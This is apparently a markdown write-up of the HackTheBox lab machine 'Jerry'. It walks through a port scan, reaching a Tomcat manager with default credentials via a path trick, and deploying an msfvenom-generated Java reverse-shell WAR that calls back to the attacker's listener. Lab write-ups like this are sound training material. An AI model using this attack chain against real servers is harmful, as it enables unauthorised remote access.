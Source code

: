 ```yaml
---
tags:
  - tomcat
---
```

# HTB: Jerry

***Overview**: Jerry is an Easy rated Windows machine on Hackthebox that exploits the upload of java applications (.war files) to gain foothold.*

## Scanning and Enumeration

- So we start by scanning for open ports as well as the services running on those ports

```shell
┌──(kali㉿kali)-[~/HTB/Jerry]
└─$ sudo masscan -p1-65535 10.10.10.95 --rate=1000 -e tun0 > ports
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2023-11-11 21:02:20 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
                                                                                                                                                                       
┌──(kali㉿kali)-[~/HTB/Jerry]
└─$ cat ports
Discovered open port 8080/tcp on 10.10.10.95    
```

```shell
                                                                                                                                                                       
┌──(kali㉿kali)-[~/HTB/Jerry]
└─$ nmap -sV -sC -p8080 10.10.10.40 -v -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 16:05 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:05
Completed NSE at 16:05, 0.00s elapsed
Initiating NSE at 16:05
Completed NSE at 16:05, 0.00s elapsed
Initiating NSE at 16:05
Completed NSE at 16:05, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 16:05
Completed Parallel DNS resolution of 1 host. at 16:05, 0.00s elapsed
Initiating Connect Scan at 16:05
Scanning 10.10.10.40 [1 port]
Completed Connect Scan at 16:05, 2.01s elapsed (1 total ports)
Initiating Service scan at 16:05
NSE: Script scanning 10.10.10.40.
Initiating NSE at 16:05
Completed NSE at 16:06, 5.01s elapsed
Initiating NSE at 16:06
Completed NSE at 16:06, 0.01s elapsed
Initiating NSE at 16:06
Completed NSE at 16:06, 0.00s elapsed
Nmap scan report for 10.10.10.40
Host is up.

PORT     STATE    SERVICE    VERSION
8080/tcp filtered http-proxy

NSE: Script Post-scanning.
Initiating NSE at 16:06
Completed NSE at 16:06, 0.00s elapsed
Initiating NSE at 16:06
Completed NSE at 16:06, 0.00s elapsed
Initiating NSE at 16:06
Completed NSE at 16:06, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.53 seconds
                                                                        
```

- so navigating to the webserver, we can see that Apache Tomcat/7.0.88 is running

![](assets/Jerry_assets/Pasted%20image%2020231111220611.png)

```ad-info
Apache Tomcat is an open source web server and servlet container used for deploying Java based web applications
- it functions as a Web server and a Servlet container
- Web server by handling HTTP request and also serving static contents like images, they also send dynamic content to Java servlets
- Servlets handle dynamic content generation and interaction with web applications
- The Tomcat manager is a web application in the tomcat server that allows us to manager our deployed web applications as well as the tomcat server itself.
	- we can deploy web applications; WAR files or unpacked directories containing web application files
- WAR files: Web Application Archive Files; a packaged bundle of files that contain a complete Java web application. a folder containing Servlets, JavaServer Pages(JSP), HTML, CSS and JS files, Libraries and dependencies, configuration files
- JSP(or Jakarta Server Pages): a server side technology that enables the creation of dynamic web pages using Java
```

- so we navigate to the manager directory by using the `;param=value` trick as seen below

![](assets/Jerry_assets/Pasted%20image%2020231111221036.png)

- if we use the wrong login we are brought to the error page that actually displays default credentials, 

![](assets/Jerry_assets/Pasted%20image%2020231111221117.png)

- so we use this default credentials tomcat and s3cret at http://10.10.10.95:8080/;param=value/manager/html and we have access
- so now we are brought to the tomcat manager dashboard

![](assets/Jerry_assets/Pasted%20image%2020231111221449.png)

## Exploitation

- we generate a reverse shell war file using msfvenom

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f war -o revshell.war
```

- then we browse to the file and deploy it to execute it

![](assets/Jerry_assets/Pasted%20image%2020231111221724.png)

![](assets/Jerry_assets/Pasted%20image%2020231112054146.png)

- in our netcat listener, we get a shell

![](assets/Jerry_assets/Pasted%20image%2020231112054306.png)

- then we can view the user and root txt files

![](assets/Jerry_assets/Pasted%20image%2020231112055008.png)